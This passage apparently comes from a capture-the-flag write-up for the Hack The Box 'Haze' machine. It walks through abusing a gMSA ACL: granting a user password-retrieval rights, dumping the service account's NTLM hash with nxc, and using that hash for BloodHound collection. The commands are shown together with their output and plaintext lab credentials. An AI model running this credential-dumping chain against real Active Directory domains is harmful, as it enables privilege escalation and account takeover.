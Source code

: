 ```powershell
...
ObjectDN                : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : WriteProperty
ObjectAceType           : ms-DS-GroupMSAMembership
AceFlags                : None
AceType                 : AccessAllowedObject
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-323145914-28650650-2368316563-1107
IdentityReferenceName   : gMSA_Managers
IdentityReferenceDomain : haze.htb
IdentityReferenceDN     : CN=gMSA_Managers,CN=Users,DC=haze,DC=htb
IdentityReferenceClass  : group
...
```

### Granting gMSA Retreival Rights

We use the `Set-ADServiceAccount` cmdlet to grant the controlled `mark.adams` user rights to retrieve the gMSA password of the `Haze-IT-Backup$` service account:

```powershell
$gMSA = "Haze-IT-Backup$"
$PrincipalToAdd = "mark.adams"
Set-ADServiceAccount -PrincipalsAllowedToRetrieveManagedPassword $PrincipalToAdd $gMSA
```

### Retreiving gMSA Password

We use `nxc` to retreive the gMSA password of the `Haze-IT-Backup$` service account:

```bash
nxc ldap 10.10.11.61 -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa
```

```bash
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAPS       10.10.11.61     636    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAPS       10.10.11.61     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.10.11.61     636    DC01             Account: Haze-IT-Backup$      NTLM: 4de830d1d58c14e241aff55f82ecdba1     PrincipalsAllowedToReadPassword: mark.adams
```

```
Haze-IT-Backup$:4de830d1d58c14e241aff55f82ecdba1
```

### BloodHound Ingestion 3.0

We use `bloodhound-ce-python` to ingest BloodHound and collect more domain information as the `Haze-IT-Backup$` service account:

```bash
bloodhound-ce-python -u 'Haze-IT-Backup$' -p ':4de830d1d58c14e241aff55f82ecdba1' \
-d haze.htb -dc-ip 10.10.11.61 -ns 10.10.11.61 -c All --zip
```
